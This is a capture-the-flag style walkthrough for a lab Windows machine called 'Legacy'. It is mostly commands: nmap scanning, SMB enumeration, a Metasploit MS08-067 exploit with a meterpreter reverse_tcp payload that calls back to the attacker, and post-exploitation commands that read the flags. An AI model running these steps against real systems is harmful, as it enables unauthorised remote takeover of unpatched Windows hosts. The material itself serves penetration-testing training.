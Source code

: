 # Windows Legacy Exploitation Walkthrough

## Overview
This guide details the steps for identifying and exploiting a vulnerable **Windows Legacy** machine, using enumeration, SMB vulnerability scanning, and exploitation with Metasploit.

---

## 1. Identifying the Target OS
Run the following **ping** command to determine the OS based on TTL values:

```bash
sudo ping -c 1 10.10.10.4
```

- **TTL < 65** → Linux
- **TTL 65-128** → Windows
- **TTL > 128** → Network appliance

Since the TTL is **127**, the target is a **Windows** machine.

---

## 2. Running an Nmap Scan
Perform an **aggressive full-port scan** with service detection:

```bash
sudo nmap -vvv -Pn -sCV --reason -T4 -p 0-65535 -oN legacy.nmap 10.10.10.4
```

- **`-sCV`** → Runs default scripts and version detection
- **`-Pn`** → Treats the host as online
- **`-T4`** → Aggressive timing
- **`-oN legacy.nmap`** → Saves output to a file

---

## 3. Enumerating SMB (Server Message Block)

### **Using enum4linux**
```bash
sudo enum4linux -a 10.10.10.4
```

### **Checking SMB Shares**
```bash
sudo smbmap -H 10.10.10.4
```
```bash
sudo smbclient --no-pass --list=\\10.10.10.4\
```
```bash
sudo smbclient -N -L =\\10.10.10.4\
```

---

## 4. Scanning for SMB Vulnerabilities

Find relevant **SMB vulnerability scripts**:
```bash
ls /usr/share/nmap/scripts | grep smb | grep vuln
```

Run **Nmap SMB Vulnerability Scan**:
```bash
sudo nmap -vvv -Pn -sCV -T4 -p 139,445 --script smb-vuln* -oN legacy_smb.nmap 10.10.10.4
```

---

## 5. Exploiting MS08-067 (SMB Vulnerability)

Start **Metasploit** and run the exploit:
```bash
msfconsole
```
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set RPORT 445
exploit
![{D5A03649-C44F-4621-AE17-6C592AF541AB}.png](attachment:28cfd24d-4b7c-4644-a811-e21069410cf8:D5A03649-C44F-4621-AE17-6C592AF541AB.png)
```

---

## 6. Post-Exploitation

### **Meterpreter Commands**
```bash
sysinfo   # Get system information
shell     # Get interactive command shell
whoami    # Check current user
![{D3069FC9-61BC-466B-9073-4BC9D60B0B41}.png](attachment:694ff184-f7d9-49c4-bb4b-2cb3cf6e8465:D3069FC9-61BC-466B-9073-4BC9D60B0B41.png)
```

### **Get User Flag**
Navigate to `C:\Users\Public\Desktop` and retrieve the flag:
```bash
cd C:\Users\Public\Desktop
type user.txt
![{A7DA073B-A31E-447F-A351-176B99E33A2F}.png](attachment:1efa1507-781f-44a5-b5fa-ee348149096f:A7DA073B-A31E-447F-A351-176B99E33A2F.png)
```

### **Get Admin Flag**
Navigate to `C:\Users\Administrator\Desktop` and retrieve the flag:
```bash
cd C:\Users\Administrator\Desktop
type root.txt
![{C023C429-2933-4E47-A148-9C6792CB17A6}.png](attachment:49ef8e06-4792-4633-aabd-3e5d9d9fbeae:C023C429-2933-4E47-A148-9C6792CB17A6.png)
```

---

## Summary
✅ **Ping TTL** confirms Windows
✅ **Nmap** finds open ports (likely SMB 445)
✅ **Enum4linux** and **smbmap** list SMB shares
✅ **Nmap SMB Vuln Scan** confirms **MS08-067**
✅ **Metasploit** exploits MS08-067 for **meterpreter shell**
✅ **User & Admin flags retrieved**

### 🚀 Exploitation complete!
